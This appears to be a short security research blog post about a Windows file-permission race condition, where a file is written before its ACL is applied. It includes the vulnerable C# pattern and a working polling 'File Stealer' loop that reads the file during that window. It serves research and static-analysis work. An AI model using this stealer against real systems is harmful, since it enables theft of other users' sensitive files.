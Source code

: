 ```yaml
---
title: "Applying ACLs and Race Conditions"
date: 2020-02-15T12:23:33-08:00
draft: true
tags: [
        "pentesting",
        "research"
    ]
---
```


Sometimes there are intersting race conditions that allowe an adversary to gain access to sensitive files on a machine. The system would create files that contain sensitive information and afterwards apply permissions to lock the file down.

## Understanding the race condition

Let's look at a practical example seen in the wild a few times. Imagine the following code:

* Code creates file with sensitive information. Doing something like:

```
file.WriteAllBytes(filePath, content);
```
* Then the ACL is updated to lock down the file. [Here is a the documentation on how to do that using the FileSecurity class](https://docs.microsoft.com/en-us/dotnet/api/system.security.accesscontrol.filesecurity?view=netframework-4.8)).Hence, you might see something similar to:

```
// Add the access control entry to the file.
AddFileSecurity(filePath, @"Administrators",
    FileSystemRights.ReadData, AccessControlType.Allow);
```

Aditionally, permission inheritance will be broken by the developer as well (e.g to prevent automatic read access, as otherwise the file likely won't be locked down properly anyways).

*These two instructions above are basically rigth after each other.*

## Exploitable?
So, what's the chance of an adversary on the machine reading the file right after it was created, but before the permission lockdown happens. My initial thought was that this could theoretically be exploitable by someone else on the machine, but probably is too narrow of a window for a stable exploit. 

Nevertheless, I thought to give it a try and build a little File Stealer.

## Winning the race 
Nothing fancy when it comes to testing for this. I built a simple tool in C# that tries to access the file in a loop and prints out the contents if that is the case. 
This is basically the core part of the utility:

``` 
while (true)
{
    try
    {
        string content = File.ReadAllText(path);

        Console.WriteLine("*** SUCCESS: File was grabbed before the ACL got applied! ***");
        Console.WriteLine(content);
        break;
    }
    catch (Exception ex)
    {
        //Console.Write("."); //provide feedback of access denied/file not found
    }
}

Console.WriteLine("*** Done");
```

For this example the filename needs to be known, which in the scenario I looked at was actually predictable.


## What's the result you might ask?

*Turns out that this worked 100% of the time so far.*

There are sometimes similar coding patterns I have seen with registry key, so I am adding this to my static anlaysis TODO list for things to check for.

Hope that helps - also if you find something similar, reach out. Curious to see how common that is.


## References

* [FileSecurity Documentation](https://docs.microsoft.com/en-us/dotnet/api/system.security.accesscontrol.filesecurity?view=netframework-4.8)



